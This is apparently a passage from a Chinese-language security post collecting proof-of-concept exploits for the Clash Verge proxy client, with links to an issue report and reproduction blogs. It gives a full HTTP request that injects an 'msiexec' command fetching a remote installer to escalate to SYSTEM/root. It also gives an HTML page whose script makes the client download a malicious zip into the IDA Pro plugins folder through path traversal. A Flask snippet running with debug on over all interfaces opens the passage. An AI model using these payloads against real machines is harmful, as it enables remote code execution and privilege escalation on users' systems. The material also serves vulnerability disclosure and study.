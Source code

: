   ```py
  if __name__ == '__main__':
      app.run(host = '0.0.0.0',
          port = 80,  
          debug = True)
  ```

## 故事仍在继续

- [Clash Verge Rev 提权漏洞](https://github.com/clash-verge-rev/clash-verge-rev/issues/3428), [复现博客](https://linux.do/t/topic/639447). 配合开放代理可以打到 SYSTEM / root

  ```http
  POST /start_clash HTTP/1.1
  Host: 127.0.0.1:33211
  Content-Type: application/json
  
  {
    "core_type":"verge-mihome",
    "bin_path":"cmd.exe",
    "config_dir":"",
    "config_file":"/c  msiexec /q /i http://0.0.0.0:9000/2.msi && echo 1",
    "log_file":"C:\\Windows\\Temp\\5.log"
  }
  ```

- [Clash Verge / Mihomo 任意文件写](https://github.com/ddddhm1234/clash-verge-rce), [复现博客](https://linux.do/t/topic/667586)

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <body>
      <p>1. 访问恶意网页后, 即可通过Clash Verge获得文件写入能力</p>
      <p>2. 以IDA插件加载机制为例, 通过部署恶意IDA插件载荷, 将文件写扩展到RCE</p>
      <script>
          const r = fetch("http://127.0.0.1:9097/configs", {
              method: "PUT",
              body: JSON.stringify({
                  payload: `
                  external-ui: test1234
                  external-ui-url: ${document.location.origin + '/malware.zip'}
                  external-ui-name: ..\\..\\Hex-Rays\\IDA Pro\\plugins\\malware`,
                  path: ""
              })
          });
      </script>
  </body>
  </html>
  ```
